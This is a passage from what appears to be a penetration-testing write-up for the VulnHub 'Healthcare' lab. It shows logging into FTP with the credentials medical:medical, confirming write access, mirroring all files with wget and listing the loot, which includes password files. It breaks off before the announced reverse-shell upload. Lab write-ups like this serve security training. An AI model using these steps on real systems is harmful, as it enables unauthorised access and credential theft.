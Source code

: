 # Initial Foothold 2
## TCP/21 - FTP - Upload Reverse Shell
- Instead of inserting reverse shell @ OpenEMR, we upload a reverse shell through FTP
1. Able to access FTP w/ medical:medical
	```
	┌──(root💀kali)-[~/vulnHub/Healthcare/192.168.110.8/loot/ftp]
	└─# ftp -nv $ip
	Connected to 192.168.110.8.
	220 ProFTPD 1.3.3d Server (ProFTPD Default Installation) [192.168.110.8]
	ftp> user medical
	331 Password required for medical
	Password: 
	230 User medical logged in
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> put test 
	local: test remote: test
	200 PORT command successful
	150 Opening BINARY mode data connection for test
	226 Transfer complete
	ftp> 
	```
	- We have write access
2. Download all files from medical
	```
	┌──(root💀kali)-[~/vulnHub/Healthcare/192.168.110.8/loot/ftp]
	└─# wget -m --no-passive ftp://medical:medical@$ip #Download all
	```
3. View directory structure
	```
	┌──(root💀kali)-[~/vulnHub/Healthcare/192.168.110.8/loot/ftp]
	└─# tree 192.168.110.8/
	192.168.110.8/
	├── Desktop
	│   ├── addlocale.desktop
	│   ├── drakfirewall.desktop
	│   ├── draknetcenter.desktop
	│   └── Get Libre Office.desktop
	├── Documents
	│   ├── OpenEMR Passwords.pdf
	│   └── Passwords.txt
	├── Downloads
	│   └── openemr-4.1.0.tar.gz
	├── Movies
	├── Music
	├── Pictures
	│   └── pclosmedical.png
	├── Templates
	├── tmp
	│   ├── debug.log
	│   ├── keyring-fPbG5t
	│   ├── keyring-hSBjUb
	│   ├── orbit-medical
	│   │   ├── bonobo-activation-register-b415b005c8435facdf68405e0000002c.lock
	│   │   ├── bonobo-activation-register-d37436b21aa5f1f34a448a3a00000028.lock
	│   │   ├── bonobo-activation-server-b415b005c8435facdf68405e0000002c-ior
	│   │   └── bonobo-activation-server-d37436b21aa5f1f34a448a3a00000028-ior
	│   ├── orbit-root
	│   ├── pulse-8LagrogWihJO
	│   │   └── pid
	│   ├── ssh-RoIgQkNbu874